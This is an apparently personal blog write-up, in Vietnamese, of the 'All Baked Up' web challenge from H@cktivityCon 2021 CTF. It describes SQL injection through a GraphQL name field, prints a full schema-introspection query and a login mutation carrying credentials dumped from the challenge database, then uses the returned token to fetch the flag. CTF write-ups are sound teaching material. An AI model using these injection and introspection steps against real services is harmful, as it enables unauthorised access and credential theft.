 ```yaml
---
title: All Baked Up - H@cktivityCon 2021 CTF
author: HoangND
date: 2021-09-19 22:00:00 +0700
categories: [Writeups, H@cktivityCon 2021 CTF]
tags: [graphql, web, sqli]
---
```


All Baked Up là một trang web được dùng để lưu giữ các công thức làm bánh. Chức năng chỉ dừng lại ở trang liệt kê danh sách và truy cập cụ thể vào từng loại bánh thôi.

![image](https://user-images.githubusercontent.com/61985236/133925541-93711063-56f1-4c48-b1f3-5e0f20b560de.png)

Phân tích các request của nó

![image](https://user-images.githubusercontent.com/61985236/133925563-52393185-11ed-428f-b5a7-61f1220ebd08.png)

Vậy là trang web sử dụng công nghệ graphql để thực hiện truy vấn. Vậy chính xác graphql là gì thì mình sẽ mô tả ngắn gọn những gì cần thiết vào blog này vì mình cũng mới tìm hiểu về nó thôi.

GraphQL là ngôn ngữ truy vấn cho các API và runtime để thực hiện các truy vấn đó với dữ liệu. Nghĩa là người dùng sẽ tương tác với API thông qua graphql

![image](https://user-images.githubusercontent.com/61985236/133925714-1ee62ce8-a70a-4019-a78f-4c3ecdae1b7f.png)

Mục đích của graphql là tạo ra một endpoint đơn giản dễ hiểu dễ sử dụng để handle tất cả các endpoint phức tạp còn lại. Về operation trong graphql có hai kiểu chính là query và mutation. Ở đây query tương đương với câu lệnh select bình thường, trong khi đó mutation thường thực hiện các thao tác thay đổi bên trong dữ liệu (create, update, delete). Để dễ hình dung thì ý tưởng của query và mutation tương đương với get, post về mặt convention. Phân tích qua một chút về payload trong request của bài này

![image](https://user-images.githubusercontent.com/61985236/133934054-76bb9e49-8592-4310-a4eb-baebd4d71696.png)

Truy vấn được thực hiện có tên là UserQuery, kiểu truy vấn là Query. Bên trong truy vấn thực hiện lấy post thông qua việc kiểm tra thuộc tính name. 

Bây giờ đã hiểu qua về graphql, bây giờ thử detect sqli xem thế nào, ở đây mình thử detect trong trường name bằng cách dấu '

![image](https://user-images.githubusercontent.com/61985236/133933080-d15d081d-77d7-411c-b215-6b2736c059f7.png)

Kết quả trả về lỗi sql, như vậy có thể thực hiện sqli ở trường này, tiếp tục sqli với union mình thu được 

![image](https://user-images.githubusercontent.com/61985236/133933095-0124a2d0-899e-4fe1-b71d-4c1eaa21f7f8.png)

Vậy có thể retrieve dữ liệu thông qua các vị trí 2,3,4,6. Tiếp theo là bước SQLi đơn giản mình xin phép lướt qua. Kết quả mình đạt được là trang web sử dụng cơ sở dữ liệu 
SQLite, có hai table là users và posts. Bên trong post không có gì hay ho vì đã hiển thị hên lên giao diện người dùng rồi. Kiểm tra users thì thấy có một user duy nhất là tên của tác giả bài này.

![image](https://user-images.githubusercontent.com/61985236/133933222-431f5016-d59a-45c7-8852-e1eccdfec423.png)

Như vậy mình đã có được thông tin đăng nhập của một user, tuy nhiên trang đăng nhập ở đâu ??????. Sau đó mình sử dụng công cụ Gobuster để kiểm tra các endpoint, tuy nhiên không có bất kỳ endpoint nào cho việc đăng nhập. Để ý kỹ thì trong request của mình có trường session, decode ra thấy thông tin đăng nhập là guest, hẳn là phải có một cách thức đăng nhập nào đó. 

Sau đó mình tìm kiếm các lỗi graphql trên mạng, và tìm thấy có thứ gọi là ***__schema***. Đây là một system type chứa các thông tin về query cũng như mutation (tương tự information_schema của Mysql). Ăn sẵn bê luôn payload trên mạng vào 🙏.

```
"query":"query UserQuery {\n__schema{\nqueryType{\nname\n}mutationType{\nname\n}subscriptionType{\nname\n}types{\n...FullType\n}directives{\nname description locations args{\n...InputValue\n}\n}\n}\n}fragment FullType on __Type{\nkind name description fields(includeDeprecated:true){\nname description args{\n...InputValue\n}type{\n...TypeRef\n}isDeprecated deprecationReason\n}inputFields{\n...InputValue\n}interfaces{\n...TypeRef\n}enumValues(includeDeprecated:true){\nname description isDeprecated deprecationReason\n}possibleTypes{\n...TypeRef\n}\n}fragment InputValue on __InputValue{\nname description type{\n...TypeRef\n}defaultValue\n}fragment TypeRef on __Type{\nkind name ofType{\nkind name ofType{\nkind name ofType{kind name ofType{\nkind name ofType{\nkind name ofType{\nkind name ofType{\nkind name\n}\n}\n}\n}\n}\n}\n}\n}\n"
```

Kết của trả về chứa các query và mutation được hỗ trợ, ở đây mình tìm thấy một query để lấy flag

```json
{
    "args": [

    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "flag",
    "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
    }
}
```

Thử luôn xem lấy được flag không

![image](https://user-images.githubusercontent.com/61985236/133935015-97c01c93-ca91-41e5-b4be-7ef49bc4448b.png)

Vậy là bắt buộc phải đăng nhập và lấy được token. Tiếp tục tìm kiếm bên trong __schema, mình tìm thấy một mutation xác thực user

```json
{
    "args": [{
            "defaultValue": null,
            "description": "",
            "name": "username",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        },
        {
            "defaultValue": null,
            "description": "",
            "name": "password",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        }
    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "authenticateUser",
    "type": {
        "kind": "OBJECT",
        "name": "Auth",
        "ofType": null
    }
}
```

Từ thuộc tính type mình biết được mutation này trả về object kiểu Auth, ngay dưới mutation này có mô tả về type Auth

```json
{
    "description": "Auth info for a user",
    "enumValues": null,
    "fields": [{
            "args": [

            ],
            "deprecationReason": null,
            "description": "The token",
            "isDeprecated": false,
            "name": "token",
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            }
        },
        {
            "args": [

            ],
            "deprecationReason": null,
            "description": "The user",
            "isDeprecated": false,
            "name": "user",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "OBJECT",
                    "name": "User",
                    "ofType": null
                }
            }
        }
    ],
    "inputFields": null,
    "interfaces": [

    ],
    "kind": "OBJECT",
    "name": "Auth",
    "possibleTypes": null
}
```

Bên trong Auth có trường token. Túm váy lại, mình sẽ tạo mutation và truyền vào username và password sau đó lấy token từ response cho việc xác thực. Payload cuối cùng để đăng nhập như sau

```json
{
    "operationName":"UserMutation",
    "variables":{
        "username":"congon4tor",
        "password":"n8bboB!3%vDwiASVgKhv"
    },
    "query":"mutation UserMutation($username:String!, $password:String!) {\nauthenticateUser(username:$username, password:$password){\ntoken\n}\n}\n"
}
```

![image](https://user-images.githubusercontent.com/61985236/133935169-31320782-26f9-4823-bbce-9c3d0748748f.png)

Lấy được token rồi, quay lại lấy flag thôi. Thêm header Authorization vào request.

![image](https://user-images.githubusercontent.com/61985236/133935205-e255e120-76dd-4dec-baa9-fd5c61c4167a.png)



